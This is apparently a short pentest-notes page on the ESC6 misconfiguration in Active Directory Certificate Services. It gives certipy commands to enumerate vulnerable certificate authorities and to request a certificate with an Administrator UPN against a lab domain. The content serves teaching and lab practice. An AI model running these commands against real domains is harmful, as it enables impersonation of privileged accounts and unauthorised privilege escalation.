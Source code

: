 ```yaml
---
description: ESC | Active Directory Certificate Services
---
```


# ESC6

The Certificate Authority can be vulnerable if a specific flag, `EDITF_ATTRIBUTESUBJECTALTNAME2`. This was patched in May 2022. A security concern in how **Smart Card Logon** is implemented in on-premise Active Directory environments that revolves around the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag in Certificate Authorities (CA).&#x20;

If this flag is enabled, it allows users to define custom values in the **Subject Alternative Name (SAN)** field of a certificate. This means:

* Even low-privileged users can request a certificate (e.g., via the default "User" template) with **Client Authentication** EKU (1.3.6.1.5.5.7.3.2).
* The certificate can include a custom **User Principal Name (UPN)**, allowing an attacker to impersonate any user, including privileged accounts.

This misconfiguration can lead to privilege escalation.

```bash
# Enumeration
certipy find -u 'blwasp@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -vulnerable -stdout

# Result
    [!] Vulnerabilities
      ESC6                              : Enrollees can specify SAN and Request Disposition is set to Issue. Does not work after May 2022
```

#### Abuse from Linux

```bash
# Request certificate with alternate UPN
certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template User -upn Administrator@lab.local
```

